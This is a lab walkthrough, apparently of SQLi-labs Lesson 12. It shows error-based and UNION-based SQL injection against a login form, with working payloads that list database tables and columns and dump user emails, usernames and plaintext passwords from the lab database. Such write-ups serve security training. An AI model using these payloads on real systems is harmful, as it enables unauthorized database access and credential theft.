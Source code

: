 # Lesson-12

Error Based

When we try just `\` we get

```ABAP
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"\") and password=("") LIMIT 0,1' at line 1
```

So the query must be like

```sql
SELECT * FROM users where username=("$username") AND password=("$password") LIMIT 0,1;
```

So we have to use `")` to break the query

We use:

```sql
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema=database(); #

Your Password:emails,referers,uagents,users
```

So we try to get all the info from the tables using

First we get the column names

```ABAP
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='emails'; #

Your Password:id,email_id
```

2

```ABAP
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='referers'; #

Your Password:id,referer,ip_address
```

3

```ABAP
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='uagents'; #

Your Password:id,uagent,ip_address,username
```

4

```ABAP
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users'; #

Your Password:id,username,password
```

Now we can get all the data from these tables

From emails

```ABAP
1") union select group_concat(id),group_concat(email_id) from emails; #

Your Login name:1,2,3,4,5,6,7,8
Your Password:Dumb@dhakkan.com,Angel@iloveu.com,Dummy@dhakkan.local,secure@dhakkan.local,stupid@dhakkan.local,superman@dhakkan.local,batman@dhakkan.local,admin@dhakkan.com
```

From referers :

```ABAP
1") union select group_concat(id),group_concat(ip_address) from referers; #

Your Login name:
Your Password:

!empty!
```

From uagents :

```ABAP
1") union select group_concat(id),group_concat(uagent) from uagents; #

Your Login name:1,2,3,4,5,6
Your Password:Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,0,0,0

1") union select group_concat(ip_address),group_concat(username) from uagents; #

Your Login name:172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1
Your Password:admin,admin,admin,admin,admin,admin
```

From users:

```ABAP
1") union select group_concat(id),group_concat(username) from users; #

Your Login name:1,2,3,4,5,6,7,8,9,10,11,12,14
Your Password:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4


1") union select group_concat(username),group_concat(password) from users; #

Your Login name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```
